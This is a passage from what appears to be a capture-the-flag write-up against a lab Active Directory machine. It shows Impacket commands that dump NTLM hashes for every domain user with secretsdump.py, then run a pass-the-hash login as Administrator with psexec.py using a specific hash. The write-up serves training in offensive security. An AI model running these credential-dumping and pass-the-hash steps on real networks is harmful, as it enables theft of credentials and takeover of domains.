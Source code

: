 ![](images/powerview.png)

This can be accomplished using the `secretsdump.py` tool from Impacket. We'll exit our current remote session and run our command.

```
$ secretsdump.py -just-dc-ntlm EGOTISTICAL-BANK.LOCAL/svc_loanmgr@10.10.10.175
```

![](images/secrets.png)

Success! We receive NTLM hashes for all the users, including the Administrator. Let's use psexec.py to perform a pass-the-hash attack, and connect to the box as the Administrator.

```
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff administrator@10.10.10.175
```

It was successful and we've escalated our privileges.
